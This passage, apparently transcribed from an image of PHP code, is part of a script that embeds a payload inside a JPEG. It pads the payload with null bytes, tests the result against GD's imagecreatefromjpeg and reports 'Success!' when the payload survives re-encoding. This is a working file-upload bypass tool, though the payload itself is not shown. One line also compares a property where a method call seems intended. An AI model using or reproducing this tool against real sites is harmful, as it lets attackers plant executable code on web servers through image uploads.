 ```php
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');
 
    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }
 
    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
                $extraBytes = (int)$m[1];
            }
        }
    }
 
    class DataInputStream {
        private $binData;
        private $order;
```